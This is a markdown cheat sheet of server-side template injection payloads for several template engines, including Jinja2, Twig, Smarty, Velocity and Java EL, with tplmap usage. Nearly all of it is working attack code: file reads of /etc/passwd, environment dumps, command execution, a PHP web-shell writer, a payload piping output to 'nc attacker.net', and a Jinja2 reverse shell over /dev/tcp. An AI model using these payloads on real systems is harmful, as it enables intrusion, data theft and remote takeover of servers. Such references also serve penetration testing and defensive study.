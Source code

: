 # Templates Injections

> Template injection allows an attacker to include template code into an existant (or not) template.     

Recommended tool: [Tplmap](https://github.com/epinna/tplmap)
e.g:
```
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell 
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade 
```

## Ruby
### Basic injection
```python
<%= 7 * 7 %>
```

### Retrieve /etc/passwd
```python
<%= File.open('/etc/passwd').read %>
```


## Java 
### Basic injection
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Retrieve the system’s environment variables.
```java
${T(java.lang.System).getenv()}
```

### Retrieve /etc/passwd
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

## Twig
### Basic injection
```python
{{7*7}}
{{7*'7'}} would result in 49
```

### Template format
```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Code execution
```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```


## Smarty
```python
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

## Freemarker
Default functionality.
```python
<#assign
ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

## Jade / Codepen
```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

## Velocity
```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

## Mako
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```


## Jinja2
[Official website](http://jinja.pocoo.org/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.


### Basic injection
```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on Flask application.
### Template format
```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Dump all used classes
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

### Dump all config variables
```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Read remote file
```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

### Write into remote file
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Remote Code Execution via reverse shell
Listen for connexion
```
nv -lnvp 8000
```
Inject this template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## AngularJS
### Basic injection
```javascript
$eval('1+1')
{{1+1}}
```

## Thanks to
 * [https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
 * [Yahoo! RCE via Spring Engine SSTI](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)
 * [Ruby ERB Template injection - TrustedSec](https://www.trustedsec.com/2017/09/rubyerb-template-injection/)
 * [Gist - Server-Side Template Injection - RCE For the Modern WebApp by James Kettle (PortSwigger)](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
 * [PDF - Server-Side Template Injection: RCE for the modern webapp - @albinowax](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
 * [VelocityServlet Expression Language injection](https://magicbluech.github.io/2017/12/02/VelocityServlet-Expression-language-Injection/)
